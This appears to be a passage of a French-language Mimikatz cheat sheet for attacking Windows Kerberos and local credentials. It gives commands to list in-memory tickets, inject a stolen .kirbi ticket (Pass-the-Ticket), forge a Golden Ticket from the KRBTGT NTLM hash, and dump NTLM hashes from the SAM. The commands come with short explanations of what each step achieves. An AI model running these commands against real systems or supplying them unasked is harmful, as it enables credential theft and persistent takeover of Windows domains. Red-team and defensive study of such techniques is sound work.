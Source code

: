 *   **Commande** :

    ```cmd
    kerberos::list
    ```
* **Explication** :
  * Affiche tous les tickets Kerberos en mémoire, y compris les TGT (Ticket-Granting Tickets) et les TGS (Ticket-Granting Service).

***

#### 2. Injecter un Ticket Kerberos

*   **Commande** :

    ```cmd
    kerberos::ptt /path/to/ticket.kirbi
    ```
* **Explication** :
  * Injecte un ticket `.kirbi` dans le système pour accéder à des ressources sans authentification supplémentaire (Pass-the-Ticket).

***

#### 3. Créer un Golden Ticket

*   **Commande** :

    ```cmd
    kerberos::golden /domain:<domain_name> /sid:<domain_sid> /krbtgt:<krbtgt_hash> /user:<username>
    ```
* **Explication** :
  * Génère un **Golden Ticket** pour obtenir un accès persistant à un domaine Windows.
  * Requiert :
    * Le nom de domaine (`<domain_name>`).
    * L'identifiant SID du domaine (`<domain_sid>`).
    * Le hash NTLM du compte KRBTGT (`<krbtgt_hash>`).

***

### 📋 Étape 4 : Exemples de Scénarios

***

#### 1. Extraction des Hashes NTLM du SAM

*   **Commande complète** :

    ```cmd
    privilege::debug
    lsadump::sam
    ```
* **Explication** :
  * Active les privilèges nécessaires et extrait les hashes NTLM des utilisateurs stockés localement.

***
